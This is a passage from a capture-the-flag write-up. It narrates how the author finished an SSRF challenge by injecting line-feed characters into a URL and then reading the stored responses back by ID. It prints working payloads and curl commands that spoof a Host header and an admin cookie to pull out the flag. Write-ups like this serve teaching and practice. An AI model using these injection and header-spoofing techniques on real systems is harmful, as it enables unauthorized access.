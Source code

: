 That cursed trailing `212.foo.com` would not go away. For what seemed like an
eternity he tried new payloads: `\u000d`, `\r\n`, `\n\r`, `\u2028` (hey, it *might*
have worked!).

After a while he glanced at the ID retuned for his latest payload:

```
▶ ./fetch.php 'localhost:1337/\u000a212.foo.com' 
localhost:1337/\u000a212.foo.com
{"next":"\/read.php?id=596"}
{"data":"IA=="}
```

596?! Had he really tried *that* many different payloads? No. No he had not.

The thing with that PHP script he had wrote, was it assumed that the ID you got
back would always have the returned data for that request. It worked for all of
the 'simple' payloads, but when line feeds and carriage returns were involved
things got interesting. All along he had wrongly assumed that the entire payload
was being requested - and that the part of the path after the line breaks would
be pushed into the headers of the request.

What was actually happening was that the domains were being stored in some kind
of line-delimited fashion - perhaps even in a text file. The ID you got back was
really the number of lines in the file! The IDs were going up by more than one!

EUREKA!


```
▶ ./fetch.php 'localhost:1337/\u000a212.foo.com' 
localhost:1337/\u000a212.foo.com
{"next":"\/read.php?id=598"}
{"data":"IA=="}
▶ curl -s -H'Host: admin.acme.org' -H'Cookie: admin=yes' http://104.236.20.43/read.php?id=597 | jq -r '.data' | base64 --decode
Hmm, where would it be?
```

ID 598 returned nothing; but ID 597? That had data from the index page in it. He
very nearly had the solution he needed hours earlier but just didn't know it at the time.

So could finding the flag really be as simple as... No... Really?

```
▶ ./fetch.php 'localhost:1337/flag\u000a212.foo.com' 
localhost:1337/flag\u000a212.foo.com
{"next":"\/read.php?id=600"}
{"data":"IA=="}
```

Nothing for ID 600, but...

```
▶ curl -s -H'Host: admin.acme.org' -H'Cookie: admin=yes' http://104.236.20.43/read.php?id=599 | jq -r '.data' | base64 --decode
FLAG: CF,2dsV\/]fRAYQ.TDEp`w"M(%mU;p9+9FD{Z48X*Jtt{%vS($g7\S):f%=P[Y@nka=<tqhnF<aq=K5:BC@Sb*{[%z"+@yPb/nfFna<e$hv{p8r2[vMMF52y:z/Dh;{6
```
